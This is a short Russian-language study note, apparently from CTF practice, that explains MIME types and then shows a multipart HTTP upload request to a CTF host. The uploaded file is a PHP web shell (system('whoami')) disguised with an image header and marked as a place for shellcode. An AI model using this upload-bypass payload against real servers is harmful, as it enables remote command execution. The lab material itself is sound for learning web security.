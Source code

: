 MIME - Тип носителя (также известный как многоцелевые расширения почты Интернета или тип MIME) указывает характер и формат документа, файла или набора байтов. Типы MIME определены и стандартизированы в документе IETF RFC 6838. Браузеры используют тип MIME, а не расширение файла, чтобы определить, как обрабатывать URL-адрес и правильно открыть файл.

пример:

	POST /second/level21/ HTTP/1.1
	Host: kslweb1.spb.ctf.su
	Content-Length: 248
	Cache-Control: max-age=0
	Accept-Language: ru-RU
	Upgrade-Insecure-Requests: 1
	Origin: http://kslweb1.spb.ctf.su
	**Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryaWm41e5fF8CHbtJB**
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
	Referer: http://kslweb1.spb.ctf.su/second/level21/
	Accept-Encoding: gzip, deflate, br
	Connection: keep-alive
	
	------WebKitFormBoundaryaWm41e5fF8CHbtJB 			#рандомное число, указывающее на начало передачи файлов
	Content-Disposition: form-data; name="myfile"; filename="rrrr.php" #имя загруженного файла
	Content-Type: application/x-php					#тип файла

	#содержание файла:
	PNG89a;
	<?php
	  system('whoami'); # shellcode goes here
	?>

	------WebKitFormBoundaryaWm41e5fF8CHbtJB--			#конец передачи файлов

